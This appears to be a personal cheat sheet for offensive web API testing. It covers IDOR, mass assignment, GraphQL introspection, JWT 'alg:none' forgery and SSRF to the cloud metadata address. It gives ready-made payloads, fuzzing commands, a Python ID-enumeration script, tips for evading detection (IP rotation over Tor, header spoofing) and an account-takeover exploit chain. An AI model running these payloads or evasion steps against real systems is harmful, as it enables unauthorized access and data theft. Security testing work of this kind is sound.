 ```yaml
---
date: 
tags:
  - Cheatsheet
  - Technique
  - Web
---
```


```table-of-contents
```

# VULNERABILITY TYPES & EXPLOITATION

## IDOR (Insecure Direct Object Reference)

- Mechanism: Missing object-level authorization
- Test: Sequential/pattern ID manipulation
- Exploit:

```javascript
  GET /api/user/123 → 200 OK
  GET /api/user/456 → 200 OK (Unauthorized access)
```

- Tools: Burp Repeater, Python requests

## Mass Assignment

- Mechanism: Overprivileged object binding
- Test: Add privileged parameters (role, isAdmin)
- Exploit:

```javascript
  POST /api/users
  {"email":"user@test.com","role":"admin"}
```

- Tools: Postman, curl

## GraphQL Abuse

- Mechanism: Excessive data exposure
- Test: Introspection queries
- Exploit:

```javascript
 query {__schema{types{name,fields{name}}}
```

- Tools: GraphQLmap, Altair

## JWT Issues

- Mechanism: Weak crypto/validation
- Test: Algorithm substitution (none/HS256)
- Exploit:

```json
Header: {"alg":"none"}
  Payload: {"user":"admin"}
```

- Tools: jwt_tool, Burp JWT Editor

## SSRF via Webhooks

- Mechanism: Unrestricted URL fetching
- Test: Internal endpoint probing
- Exploit:

```javascript
POST /api/webhook
  {"url":"http://169.254.169.254"}
```

- Tools: Collaborator, Interactsh

# ENDPOINT DISCOVERY METHODS

- Directory fuzzing: ffuf -w wordlist.txt -u `https://target.com/api/FUZZ`
- JS analysis: Extract endpoints from `/static/main.js`
- Documentation: Check `/swagger.json`, `/openapi.yaml`
- Mobile apps: Use `MobSF for APK analysis`

# ESSENTIAL TOOLS

| Tool          | Primary Use                | Command Example                  |
|---------------|----------------------------|----------------------------------|
| Burp Suite    | Request manipulation       | Send to Repeater/Intruder        |
| ffuf          | Endpoint discovery         | ffuf -w api_words.txt -u URL/FUZZ|
| Postman       | API chain testing          | Environment variables            |
| GraphQLmap    | GraphQL exploitation       | dump schema, field suggestions   |
| jwt_tool      | JWT manipulation           | python3 jwt_tool.py <JWT> -T     |

# EXPLOIT CODE SNIPPETS

# IDOR Testing (Python)

```python
import requests
for id in range(1000,1002):
    r = requests.get(f'https://target.com/api/user/{id}', 
                    headers={'Authorization': 'Bearer TOKEN'})
    print(f"{id}: {len(r.text)} chars")
```

# Mass Assignment (curl)

```bash
curl -X POST 'https://target.com/api/users' \
-H 'Content-Type: application/json' \
-d '{"email":"attacker@evil.com","is_admin":true}'
```

# GraphQL Introspection

```graphql
query GetEverything {
  __schema {
    types {
      name
      fields {
        name
      }
    }
  }
}
```

# DEFENSE EVASION TECHNIQUES

- Request spacing: time.sleep(3) between calls
- Header rotation: Cycle User-Agent/X-Forwarded-For
- TLS fingerprinting: Mimic mobile app clients
- IP rotation: Proxy chains/Tor

# CRITICAL CHECKS

✓ Test all HTTP methods (GET/POST/PUT/PATCH/DELETE)
✓ Verify parameter pollution (param=1&param=2)
✓ Check .json/.xml alternatives (/api/users.json)
✓ Tamper with Content-Type headers

# Exploit Chain Example

1. Find /api/users/[ID] endpoint via fuzzing
2. Discover IDOR vulnerability
3. Extract admin ID via enumeration
4. Use mass assignment on /api/admin/profile
5. Achieve full compromise

# PRO TIPS

• Always test API versions (v1 vs v2 auth)
• Capture mobile app traffic with MITMproxy
• Chain IDOR + JWT issues for account takeover
• Check for debug endpoints (/api/test, /dev)
